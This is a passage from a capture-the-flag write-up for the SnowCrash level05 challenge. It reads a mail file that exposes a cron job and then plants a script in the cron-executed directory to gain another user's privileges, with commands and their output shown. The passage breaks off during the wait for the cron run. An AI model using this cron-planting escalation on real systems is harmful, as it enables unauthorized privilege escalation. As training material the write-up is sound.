 ```bash
level05@SnowCrash:~$ find / -name level05 2> /dev/null 
/var/mail/level05
/rofs/var/mail/level05
```

Checking the mail file:

```bash
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

### Cron Job Analysis

This is a **cron job configuration** that:
- **Schedule**: `*/2 * * * *` - Runs every 2 minutes
- **Command**: `su -c "sh /usr/sbin/openarenaserver" - flag05`
- **Privilege**: Executes as the `flag05` user
- **Effect**: Automatically runs our target script with elevated privileges

## Exploitation Strategy

The attack plan:
1. **Create a malicious script** that executes `getflag`
2. **Place it in `/opt/openarenaserver/`** where the cron job will find it
3. **Redirect output** to a file we can access
4. **Wait for the cron job** to execute our script

### Step 1: Create the Malicious Script

```bash
level05@SnowCrash:~$ echo '/bin/getflag > /tmp/flag05' > /opt/openarenaserver/getflag05
```

This script:
- Executes `/bin/getflag`
- Redirects output to `/tmp/flag05`
- Will run with `flag05` privileges when the cron job executes

### Step 2: Verify File Placement

```bash
level05@SnowCrash:~$ ls -la /opt/openarenaserver/
total 4
drwxrwxr-x+ 2 root    root    60 Jul 18 18:08 .
drwxr-xr-x  1 root    root    60 Jul 18 15:04 ..
-rw-rw-r--+ 1 level05 level05 28 Jul 18 18:08 getflag05
```

Our script is successfully placed and has appropriate permissions.

### Step 3: Wait for Cron Execution

Since the cron job runs every 2 minutes, we wait for the next execution cycle:
